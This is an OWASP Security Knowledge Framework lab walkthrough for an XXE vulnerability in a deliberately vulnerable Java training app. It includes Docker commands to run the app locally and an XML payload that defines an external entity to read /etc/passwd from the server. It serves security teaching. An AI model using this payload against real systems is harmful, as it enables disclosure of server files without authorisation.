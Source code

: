 # XXE

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-xxe
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-xxe
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Processing of an Xml eXternal Entity containing tainted data may lead to the disclosure of confidential information and other system impacts. The XML 1.0 standard defines the structure of an XML document. The standard defines a concept called an entity, which is a storage unit of some type.There exists a specific type of entity, an external general parsed entity often shortened to an external entity, that can access local or remote content via a declared system identifier and the XML processor may disclose confidential information normally not accessible by the application. Attacks can include disclosing local files, which may contain sensitive data such as passwords or private user data.

![](../../.gitbook/assets/java/XXE/1.png)

When we start the application we can see that the application uses the following XML tags and use those to display information on the website in a nice manner. First we load the normal file and submit this in the application.

![](../../.gitbook/assets/java/XXE/2.png)

## Exploitation

In order to to exploit this vulnerability we need to craft a special XML header that will allow us for example read local files from the server.

```markup
<!DOCTYPE item [ <!ELEMENT item ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<items><item name="item1">a</item>
<item name="item2">&xxe;</item>
<item name="item3">c</item>
<item name="item4">d</item>
</items>
```

When we inject the above XML content we can see in the response of the application that we successfully have included the local file from the server.

![](../../.gitbook/assets/java/XXE/3.png)

We now used the **file://** to read local files from the server but there are many other attack vectors you can do with this vulnerability, do some research and also try the other ones like the Server Side Request Forgery for example.

## Additional sources

{% embed url="https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing" %}
